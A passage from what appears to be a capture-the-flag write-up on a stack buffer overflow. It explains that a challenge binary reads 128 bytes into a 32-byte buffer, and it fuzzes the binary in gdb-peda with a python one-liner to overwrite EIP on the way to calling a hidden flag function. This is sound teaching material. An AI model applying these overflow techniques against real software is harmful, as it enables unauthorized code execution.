 Oh wait, do you see what I see? The **brew_pwntion()** function is not 
used in the program, is it? It is not called anywhere in the C code, it is only
declared. What if we somehow manipulate the program to run this function?

Summed up, the issue is that the program will happily read and store up to 128
characters, but only has reserved space for 32 characters in the buffer called
**pwntion**. All security mechanisms are turned off as well. This kind of 
vulnerability is commonly known as the buffer overflow vulnerability. Or even 
more specific, this type of buffer overflow is a stack overflow. By looking at 
the code, we understand that we have to manipulate the program to paste the 
flag by running the function **brew_pwntion()**. We don't need 
a debugger to take advantage of this, but let's open **gdb-peda** and see what 
we can do. Debuggers makes it a lot easier to understand what is going on and 
pwn the binary. 

Now, open the executable in gdb-peda, and insert lots of A's in order to find 
out exactly where in the program it crashes. You may run the executable with 
input by entering `r <<< [your input here]` into the debugger. I use python to 
insert fifty A's into the debugger:

<details><summary>Checkout tip about inserting input to the program</summary></details><br>

```
gdb-peda$ r <<< `python2 -c 'print "A"*50'`
My awesome banner!

Professor maritio_o:
> I've made a function for you, my magnificent students! Do a little brewing and show me what you are good for!

Student: 
Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x33 ('3')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffd090 ('A' <repeats 50 times>, "\n\377")
EDX: 0x80 
ESI: 0xf7fb3000 --> 0x1d7d6c 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd0c0 --> 0xff0a4141 
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffffd0c0 --> 0xff0a4141 
0004| 0xffffd0c4 --> 0x0 
0008| 0xffffd0c8 --> 0x0 
0012| 0xffffd0cc --> 0xf7df3e81 (<__libc_start_main+241>:	add    esp,0x10)
0016| 0xffffd0d0 --> 0xf7fb3000 --> 0x1d7d6c 
0020| 0xffffd0d4 --> 0xf7fb3000 --> 0x1d7d6c 
0024| 0xffffd0d8 --> 0x0 
0028| 0xffffd0dc --> 0xf7df3e81 (<__libc_start_main+241>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ 
```
